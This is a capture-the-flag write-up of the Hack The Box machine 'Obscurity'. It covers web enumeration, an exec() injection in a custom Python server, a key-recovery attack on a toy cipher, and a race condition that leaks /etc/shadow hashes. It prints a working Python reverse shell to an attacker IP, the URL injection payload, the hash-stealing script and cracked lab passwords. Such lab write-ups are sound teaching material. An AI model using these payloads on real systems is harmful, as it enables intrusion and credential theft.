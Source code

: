 # Obscurity Writeup (HTB box)

## AUTHOR: bytevsbyte
Twitter: [@bytevsbyt3](https://twitter.com/bytevsbyt3)  
HTB Profile: [bytevsbyte](https://www.hackthebox.eu/profile/27835)

## TL;DR
This is a straightforward linux machine of 30 points on HackTheBox platform. The box has only two ports open, require a little enumeration of the web service and presents a custom web server. There are a lot of python, and it must be used along the way to get a shell on the box, to bypass some crypto and to understand what happens.

## FULL STORY
Start with the  `nmap -sC -sV -p- -T4 10.10.10.168 | tee nmap.txt` :
```
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 02 Dec 2019 15:31:58
|     Server: BadHTTPServer
|     Last-Modified: Mon, 02 Dec 2019 15:31:58
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     ...
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, not many ports open, so let's look to the web service.
It seems there's not much stuff on it and scrolling the main page to the bottom it seems there's some useful information:

![webpage](./webpage.png)

The developer talks about a file _SuperSecureServer.py_, it's important and should be memorized.
As first check it's better to look if there is some basic and guessable virtual host on the web server by changing the _Host_ header in a HTTP request.
It seems that after some tries the server replies always the same thing so it's better to look other places.

Let's enumerate dirs and files of the web application.
The main page is an html page so I use it in the extensions list with, php (just because I'm not sure what the backend is really) and py, related to the script named by them.
I always add at least extensions like txt,bak,tar,zip,dat to don't miss any notes, changelog, backup and so on.  
With a scan of directories "`wfuzz -u http://10.10.10.168:8080/FUZZ -w /usr/share/wordlists/dirb/big.txt`", also with a slash appended at the end and with a list of extensions "`wfuzz -u http://10.10.10.168:8080/FUZZ.FUZ2Z -w /usr/share/wordlists/dirb/dig.txt -z list,html,php,py,txt,bak,dat`" I've found.. Nothing! No dir, no file, other than the index.html!

But, I have an important information, the name of the script.
Maybe it's inside a subdirectory of the site (I checked the root and it isn't there). Note that I filter by status code response, in general I prefer to filter on the characters count, but the name of the resource it's reflected in the response.

![wfuzz](./wfuzz_develop.png)

Ohh god it found it in the __/develop/__ folder.
The dir can't be found without appending the script's name because the server doesn't reply in a different way like with a 403 response code.
By the way grab immediately that python.. I love python. Let's dig into it and look at this piece of code (the full file is [here](./SuperSecureServer.py)).

```(python)
    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
```

Ohh an `exec`! Exec like eval is evil! It takes its argument and interprets it as python code.
The script uses it on the URL path location of the HTTP request to format the final string contained in the `info` variable, after an URL-decode.  
There's no check, and there is no doubt, this can be exploited!  
To break into the machine I use the following oneline python reverse shell:
```(python)
import pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.39",55666)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
And I encode it in base64 `echo -n '...' | base64 -w0` . Note that the packages socket,subprocess,os are already imported by the script and it can be avoided in the payload. Then I can trigger the command execution by embed the base64 of the above code in the following payload as URL of a GET request:
```
/405.html'%2bexec(__import__("base64").b64decode("PAYLOAD"))%2b'
```

Yes, this is that moment when you g0t a sh3ll!

![rce](./rce.png)

With a reverse shell as _www-data_ the next target is the __robert__ user.
Inside its directory (word readable) there are some interesting files.
The _check.txt_ is: `Encrypting this file with your key should result in out.txt, make sure your key is correct!` and it's the plaintext of _out.txt_.
The full code of the [SuperSecureCrypt.py is here](./SuperSecureCrypt.py) but I summarize the encryption step as: _p is a character in plaintext and keyChr a char in key  ==>  encrypted += chr((ord(p) + ord(keyChr)) % 255)_  
It's a modular arithmetic sum "`c=p+k mod 255`" and the decryption is "`p=c-k mod 255`".  
The user provides us the ciphertext, the plaintext and not the key. Thanks to the modular arithmetic properties from the decryption expression I have "`k = c - p mod 255`" and this means that if I use the decryption code with the plaintext, instead the key, I obtain the key! (maybe repeted n times)

```
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -d -i ./out.txt -o /tmp/.text -k "`cat check.txt`"
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file ./out.txt...
Decrypting...
Writing to /tmp/.text...
www-data@obscure:/home/robert$ cat /tmp/.text
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichai
```

Yes! The key it's __alexandrovich__ and now I use this to decrypt the _passwordreminder.txt_ file.

```(bash)
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -d -i ./passwordreminder.txt -o /tmp/.text -k "alexandrovich"
...
www-data@obscure:/home/robert$ cat /tmp/.text
SecThruObsFTW

www-data@obscure:/home/robert$ su - robert
Password: SecThruObsFTW

robert@obscure:/home/robert$
```

Ok take the _user.txt_, move to ssh and it's time of root.  
Before a linenum I check the setuid binaries and there's nothing strange, then check my sudoers permissions with `sudo -l`:

```(bash)
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Well, robert can run as root without typing any password the [BetterSSH.py](./BetterSSH.py) script, another python, nice!
The full script is readable [here](./BetterSSH.py), I put below the interesting part:

```(python)
    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)
    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

Basically, the script it is an interactive shell that requires the user to authenticate himself with credentials and like the real daemon it uses the users passwords saved on the system.
It checks if the password (hashed) provided by the user match the hash stored on the system by reading the `/etc/shadow` file.
The script saves the hashes  in a file with a random name in the `/tmp/SSH/` directory.

Summary: I can use it as root and it will successfully load the shadow file, it will load the root hash from shadow and it will save it in a temporary file that is readable and in this moment I can steal it.  
The exploit could be made in bash, or in keeping with the box theme, in python!!
This is my [exploit.py](./exploit.py), that tries to exploit the race condition:
```
#!/usr/bin/python

import glob
import time

res = glob.glob('/tmp/SSH/*')
while len(res) == 0:
    time.sleep(0.02)
    res = glob.glob('/tmp/SSH/*')
with open(res[0], 'r') as f:
    data = f.read()
    print(data)
```

![hashroot](./hashroot.png)

By taking the first hash, of the root user, it can be cracked with john and the rockyou.txt wordlist: `john -wordlist=/usr/share/wordlist/rockyou.txt tocrack`. Finally the password of root is __mercedes__ .

![root](./root.png)

r00t d4nce!

Thanks for reading! Thanks to the creator [clubby789](https://www.hackthebox.eu/profile/83743) and to Hack The Box.  
If you like this write up, or just to discuss about it write me on [twitter](https://twitter.com/bytevsbyt3).  
If there is some mistake please tell me!
